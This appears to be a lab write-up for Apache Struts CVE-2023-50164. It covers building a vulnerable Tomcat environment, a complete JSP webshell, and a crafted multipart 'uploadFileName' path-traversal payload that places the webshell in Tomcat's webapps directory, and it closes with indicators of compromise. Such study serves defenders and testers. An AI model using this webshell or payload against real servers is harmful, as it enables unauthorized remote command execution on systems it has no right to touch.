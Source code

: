# Apache Struts RCE (CVE-2023-50164)
## Summary

This vulnerability allows for an attacker to manipulate file upload parameters to enable path traversal affecting the destination of the uploaded file. Under some circumstances this can lead to uploading a malicious file which can be used to perform remote code execution. This affects Struts versions 2.0.0-2.3.3 (EOL), 2.5.0-2.5.32, and 6.0.0-6.3.0.1. This vulnerability is fixed by Struts versions 2.5.33 or greater and 6.3.0.2 or greater

## Prerequisites

This requires a web server hosting a vulnerable web application using Struts ActionSupport and offering file upload functionality. Furthermore, to gain remote code execution, the application server implementing the server side upload logic needs to upload the file to the local filesystem of the webserver and have write permissions to a sensitive directory that would be useful to an attacker such as the webroot to upload a JSP webshell. 

[Additional Details on Mitigating Factors/Prerequisites](https://securityboulevard.com/2023/12/understanding-the-impact-of-the-new-apache-struts-file-upload-vulnerability/)
## Setup

[Exploit Analysis and Lab Setup for Linux and Tomcat 9](https://www.vicarius.io/vsociety/posts/apache-struts-rce-cve-2023-50164)

For this example setup, I used a Windows Host with Tomcat, however this exploit can also be conducted on Linux or with another Servlet of your choice. This will mostly affect the target directories for path traversal and the method of gaining RCE.

#### JDK 17 - Windows Install
> *Apache Tomcat Requires Java(JDK). Version 17 was used during emulation and confirmed to work*

First, if you do not have it already, you need to install JDK 17: [JDK 17 Install](https://www.oracle.com/java/technologies/downloads/#jdk17-windows)

You can check this with `java --version`

#### Maven - Windows Install
>*Usage is for compiling webapps into .war for deployment. Can run on Windows or Linux and transfer compiled .war file to desired destination*

Next, you'll also need to install maven. Below are guides that detail the installation and configuration process

[Maven Windows Install and Setup](https://phoenixnap.com/kb/install-maven-windows)

[Maven Linux Install and Setup](https://www.digitalocean.com/community/tutorials/install-maven-linux-ubuntu)

#### Tomcat - Windows Install and Deploy
>*WARNING: Tomcat Versions higher than 9 will produce an error due to Servlet API version conflict between Struts and Tomcat*

Next, you'll need to install tomcat and configure the service to host the web applications. The easiest way to do this for windows is to use the Windows Service Installer. [Tomcat Install](https://tomcat.apache.org/download-90.cgi)
- Make sure you have JDK installed beforehand, as you will need it to finish installation
- When going through the installer wizard, make sure to set an administrator user and password so as to access the manager app. If you miss this step, you can add/manage users in the `tomcat-users.xml`

By default, the installer should create a new service named something similar to `Apache Tomcat 9.0 Tomcat9`. Make sure this is running, and for ease of use, you can configure it to run automatically on startup.

When this is running, your website should be accessible! Go to 127.0.0.1:8080 in the web browser to check.
>*NOTE: By default, tomcat hosts on port 8080. To change this, you can edit the `server.xml` file in the `conf` folder*

![Successful Tomcat Deployment](./images/Pasted%20image%2020240119131515.png)
> *NOTE: If trying to access from an external machine, such as a kali box, make sure that your networking/DNS is properly configured and that the boxes can communicate, as well as check that no firewalls/filtering are blocking the port/traffic. If hosting on a Windows host, you'll likely need to either disable or modify Windows Defender Firewall rules to allow traffic through to the port you are hosting Tomcat on*
#### Compile and Deploy Vulnerable File Upload Application
For this environment, we'll deploy a basic file upload application that uses a vulnerable version of Apache Struts

[Github POC Exploit and Vulnerable Struts App](https://github.com/jakabakos/CVE-2023-50164-Apache-Struts-RCE)

Download the struts-app folder and contents from the above link. Within the `struts-app` folder, run `mvn clean package`

This should produce an `upload-1.0.0.war` within a newly created `target` subdirectory. To deploy this application, go to the tomcat manager app in the webserver. Find the "Deploy" section, upload the file, and click `Deploy`

>*NOTE: Manager app is only accessible from the localhost by default*

![Tomcat Manager](./images/Pasted%20image%2020240118160002.png)
Make sure that the upload-1.0.0 application is started, and then it should be accessible from `127.0.0.1/upload-1.0.0/upload.action` on the website

![File upload application](./images/Pasted%20image%2020240119113847.png)

Congrats! Your environment is now ready for exploitation
## Execution

### Method 1 - Manual Exploitation

#### Prepare a Webshell to Upload
To gain RCE on Tomcat, we will need to upload a .war webshell to the webapps directory. Similar to how we deployed the upload-1.0.0.war, this will allow us to deploy our own malicious application. You can create your own malicious application, or use the basic jsp webshell below

[Basic jsp webshell:](https://github.com/jakabakos/CVE-2023-50164-Apache-Struts-RCE/blob/main/exploit/webshell.jsp) 
```jsp
<%@ page import="java.io.*" %>
<%
    String cmd = request.getParameter("cmd");
    String output = "";
    if (cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd, null, null);
            BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
            while ((s = sI.readLine()) != null) {
                output += s + "\n";
            }
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
%>
<%=output %>
```
Save to `webshell.jsp`, and convert into a .war file:
```bash
jar -cvf webshell.war webshell.jsp`
```
This should create `webshell.war`, which we'll use to deploy our malicious application
#### Use Burp to modify upload parameters
Using a Burp Proxy, go to the file upload application you deployed earlier. Click on `Choose File` and select `webshell.war`. Turn on intercept in Burp, and click `Submit`. Burp should intercept the packet containing your uploaded file data. Send the HTTP POST packet to Repeater, where we will modify 2 of the parameters:
- Set `name="upload` to `name="Upload`
- Add a new upload parameter:
````
Content-Disposition: form-data; name="uploadFileName"; 

..\..\..\..\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\webshell.war
````
>*NOTE: Make sure to modify the form boundaries as well, appending a copy of the one ending with "--" to the end of the packet, and removing the "--" from the original. The image below contains an example of what this looks like when completed*

![Modified HTTP Packet](./images/Pasted%20image%2020240119130729.png)
Send this modified packet, and your webshell should be deployed to Tomcat's webapp directory!
To check if our exploit worked and interact with out webshell, we can use the `cmd` variable at `{0.0.0.0:8080}/webshell/webshell.jsp?cmd=whoami`

![whoami Command run by webshell](./images/Pasted%20image%2020240118171435.png)
>*NOTE:
>
>Default deployment will create directory with the .war's name containing the jsp file we compiled. 
>
>Ex: `jar -cvf warname.war jspname.jsp` will be accessible at `/warname/jspname.jsp`*
#### Indicators of Compromise

- Http traffic containing the "Upload" and "uploadFileName" parameters
- Http traffic containing `../` characters
- New or unusual files created/uploaded by the web service to unintended/unexpected locations (Outside of designed upload destination)
	- In particular, the creation of .war files in Tomcat's webapps directory (or a similar event in another servlet) and/or associated deployment of unauthorized web applications
